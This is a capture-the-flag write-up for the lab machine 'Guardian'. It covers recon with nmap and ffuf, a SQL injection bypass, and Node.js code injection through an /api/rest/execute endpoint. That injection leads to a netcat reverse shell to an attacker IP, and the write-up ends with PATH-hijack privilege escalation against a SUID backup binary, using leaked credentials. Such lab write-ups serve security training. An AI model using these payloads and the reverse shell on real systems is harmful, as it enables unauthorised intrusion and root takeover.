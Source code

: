 # Guardian
![](../images/guardian/index.png)

## Recon
At the beginning, I used `nmap` with the following parameters to scan the target. 
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $sudo nmap -sSVC -Pn -T5 --min-rate 2000 172.16.7.194 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 22:46 -03
Warning: 172.16.7.194 giving up on port because retransmission cap hit (2).
Nmap scan report for 172.16.7.194
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e9:d3:ea:ff:b8:2f:a6:39:f8:af:75:1d:ca:b5:aa:59 (ECDSA)
|_  256 2e:2d:59:6e:f9:5b:83:ea:5b:ff:31:c5:0c:33:20:6e (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.74 seconds
```
The scan revealed only ports 22 (SSH) and 80 (HTTP) as open. This suggests that the target is likely running a web service and allowing remote SSH connections.

Above, we can see that there is a redirect to the `/login` page, indicating that authentication is required. Additionally, the application is using `Express.js` as its web framework, which suggests that it is built with Node.js.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $whatweb 172.16.7.194
http://172.16.7.194 [302 Found] Cookies[connect.sid], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], RedirectLocation[/login], X-Powered-By[Express], nginx[1.24.0]

http://172.16.7.194/login [200 OK] Cookies[connect.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], PasswordField[password], Script, Title[Guardian Insurance], X-Powered-By[Express], nginx[1.24.0]
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $curl -I 172.16.7.194
HTTP/1.1 302 Found
Server: nginx/1.24.0 (Ubuntu)
Date: Thu, 27 Feb 2025 01:45:42 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3ARXUeGLySkK468RfGVU4pe8Y1Is1B8Wgg.b23S0dXS0oZ7kV9WD5ix4UWkZaeImFr2krPARKPep6Y; Path=/; HttpOnly
```

First, I performed fuzzing on the web application using ffuf to discover hidden directories and files:
```bash
┌─[✗]─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 166ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 219ms]
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 282ms]
login                   [Status: 200, Size: 2707, Words: 661, Lines: 52, Duration: 280ms]
customers               [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 187ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 157ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
:: Progress: [56164/56164] :: Job [1/1] :: 591 req/sec :: Duration: [0:01:50] :: Errors: 1 ::
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/js/FUZZ -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/js/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.js                [Status: 200, Size: 967, Words: 219, Lines: 36, Duration: 182ms]
utils.js                [Status: 200, Size: 1817, Words: 575, Lines: 68, Duration: 184ms]
register.js             [Status: 200, Size: 1535, Words: 400, Lines: 47, Duration: 221ms]
:: Progress: [3550/3550] :: Job [1/1] :: 515 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

The discovered directories and JavaScript files provide valuable insights into the application's structure. By analyzing the JavaScript files, we identified the following API endpoints:
```
images/
login/
logout/
customers/
js/

js/login.js
js/utils.js
js/register.js


POST to /api/auth/login
POST to /api/auth/first-access/register
GET to /api/auth/verify
POST to /api/rest/execute
```

Additionally, while interacting with the web application, we observed another endpoint: `POST to /api/auth/first-access`.
![](../images/guardian/recon.png)

## Exploitation
The analysis of utils.js reveals two functions, getCompany() and getCustomers(), which send POST requests to `/api/rest/execute` with the following JSON payload:
```
JSON.stringify({action: `db.getClients('${user.EIN}')`})
```

This suggests that the application dynamically executes queries based on user input, which could potentially lead to Remote Code Execution (RCE) if not properly sanitized. However, to explore this endpoint, a valid authentication token (cookie) is required.

In the `/first-access` registration process, there is an Employer Identification Number (EIN) input field. When a request is made to verify the EIN, the application sends a request to: `POST /api/auth/first-access`
![](../images/guardian/error_ein.png)

By testing the payload: `' or 1=1#` we successfully bypassed the EIN verification and obtained a list of valid EINs. This confirms that the application is vulnerable to SQL Injection on the `/api/auth/first-access` endpoint.
![](../images/guardian/sql_injection.png)

To register using the obtained EIN (56-7890123), we need to send a POST request to `/api/auth/first-access/register` with the required parameters.
![](../images/guardian/register.png)

Now that we have registered an account, we need to log in to obtain an authentication token.
![](../images/guardian/login.png)

Now that we have obtained a JWT. We can add `Authorization: Bearer TOKEN` in our request header.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJmOTRiZjRhMy1hNDJmLTRhZjMtYTRhYy1lZjFiOTkyMDRkMTYiLCJFSU4iOiI1Ni03ODkwMTIzIiwiZW1haWwiOiJ0ZXN0QGdtYWlsLmNvbSIsInVzZXJuYW1lIjoidGVzdCIsIlNTTiI6IjEyMzQiLCJhcHByb3ZlZCI6MCwiaWF0IjoxNzQwNjI2NDYxLCJleHAiOjE3NDA2NDA4NjF9.9oqz6-D1JgxsB-rvHn-rCKvpUZu_Ql2aXutMIstXz70
```

Since the vulnerability in utils.js seems to be exploitable, let's craft and test Remote Code Execution (RCE) payloads for Node.js.
![](../images/guardian/testing.png)

Using `{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('curl 10.0.10.235:4444')"}`
![](../images/guardian/command_injection.png)

Great! Now that we have confirmed Remote Code Execution (RCE), you can use the following payload to execute system commands:
```
{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('busybox nc 10.0.10.235 4444 -e sh')"}
```
![](../images/guardian/rce.png)

## Post Exploitation
Inside `/opt` we have a binary file. Since the binary inside `/opt` has the SUID bit set, it runs with elevated privileges. If we can analyze and exploit it, we may escalate privileges to root.
<br>
![](../images/guardian/opt_1.png)
<br>
![](../images/guardian/opt_2.png)

With Ghidra, we can see the following information:

Main function - check credentials and call a binary named `mysqldump`.
![](../images/guardian/ghidra_1.png)

Verify Credentials functions - give to us a login and password.
![](../images/guardian/ghidra_2.png)

So our path to get a privilege escalation it's make a `Path Hijacking` with `mysqldump` binary and login. Inside `/opt` directory:
```bash
echo 'chmod u+s /bin/bash' > /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*
```
![](../images/guardian/root.png)

And vouala, we have root =D